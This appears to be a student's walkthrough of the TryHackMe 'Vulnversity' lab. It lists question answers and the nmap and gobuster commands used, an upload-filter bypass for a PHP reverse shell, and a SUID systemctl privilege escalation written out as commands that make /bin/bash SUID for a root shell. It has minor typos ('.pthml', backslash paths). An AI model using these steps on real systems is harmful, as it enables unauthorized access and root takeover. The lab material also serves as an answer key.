  <div align = "center"> 22-Sep-2021, Wednesday<br>
  Notes by: Mayank Kumar Prajapati<br>
  Machine Name: Vulnversity<br>
  URL: https://tryhackme.com/room/vulnversity
</div>
<br><br>

***
**Phase 1: Reconnaissance**
***
`nmap -sV 10.10.227.240`

Scan the box, how many ports are open.\
6

What version of the squid proxy is running on the machine?\
3.5.12

How many ports will nmap scan if the flag -p-400 was used?\
400

Using the nmap flag -n what will it not resolve?\
DNS

What is the most likely operating system this machine is running?\
Ubuntu

What port is the web server running on?\
3333

***
 **Phase 2:  Locating directories using GoBuster**
 ***
`apt install gobuster`\
`gobuster dir -u http://10.10.227.240:3333/ -w /usr/share/wordlists/dirbusterdirectory-list-2.3-medium.txt`\
`gobuster dir -u http://10.10.227.240:3333/internal -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

What is the directory that has an upload form page?\
/internal/

***
**Phase 3: Compromise the webserver**
***

Try upload a few file types to the server, what common extension seems to be blocked?\
.php

Which extension seems to be allowed to upload php reverse shell?\
.pthml \
You can try it out using [extensionChecker.py](https://github.com/mayank-s16/Tryhackme-machines-notes/blob/main/vulnversity/extensionChecker.py "Extension Checker Script") file that is uploaded in thie repo.<br>

What is the name of the user who manages the webserver?\
bill

What is the user flag?\
Find it inside bill's home directory.


***
**Phase 4: Privilege Escalation**
***
In Linux, SUID (set owner userId upon execution) is a special type of file permission given to a file. 
SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).
For example, the binary file to change your password has the SUID bit set on it (`/usr/bin/passwd`).
This is because to change your password, it will need to write to the shadowers file that you do not have access to, root does, so it has root privileges to make the right changes.<br>
Note down the below command for finding out files whose user bit is set.<br>
`find / -perm -u=s -type f 2>/dev/null`\

On the system, search for all SUID files. What file stands out?\
/bin/systemctl

Click [here](https://gtfobins.github.io/gtfobins/systemctl/#suid "GTFOBins SUID for systemctl") to find out privilege escalation using `systemctl` SUID.

Note** You can also set SUID bit of /bin/bash using systemctl GTFObins url. Modify the command part as
> TF=$(mktemp).service\
> echo '[Service]\
> Type=oneshot\
> ExecStart=/bin/sh -c "chmod +s /bin/bash"\
> [Install]\
> WantedBy=multi-user.target' > $TF\
> /bin/systemctl link $TF\
> /bin/systemctl enable --now $TF

After executing the above commands one by one it will set the uid bit of \bin\bash.
To confirm this thing type the following command.
> ls -l \bin\bash\
Now you can become root.
> \bin\bash -p
---
